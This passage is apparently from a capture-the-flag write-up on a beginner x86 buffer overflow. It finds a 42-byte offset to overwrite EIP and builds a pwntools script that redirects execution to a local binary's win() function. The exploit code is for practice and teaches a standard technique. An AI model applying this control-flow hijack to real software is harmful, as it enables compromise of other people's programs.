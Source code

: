 Nothing interesting yet, let's try to send more A's until we see some in our **EIP** register.

![Output of the EIP register being overwritten](baby-bof-86-eip-overwritten.png)

Looks like sending 46 A's succesfully overwrote the **EIP** register, but because we want to replace the register with the address of the `win()` function, we need to get rid of 4 of the A's, leaving us with an offset of 42 bytes.

#### Reaching the `win()` function
For this, we can utilize the [`pwntools`](https://github.com/Gallopsled/pwntools) package.

Let's take what we know so far and put into a python script
```py
from pwn import * # Import everything from the package

io = process('./baby-bof-x86') # Create a process of the program

offset = 42 # Offset discovered via gdb
payload = b"A"*offset # Our A's encoded into bytes.
```
Remember how we saw the address of the `win()` function when we ran the program? We can use that and append it to our payload which should hopefully set the **EIP** register to it.

```py
from pwn import * # Import everything from the package

io = process('./baby-bof-x86') # Create a process of the program

offset = 42 # Offset discovered via gdb
payload = b"A"*offset # Our A's encoded into bytes.
payload += p32(0x80485c6) # b'\xc6\x85\x04\x08'
```
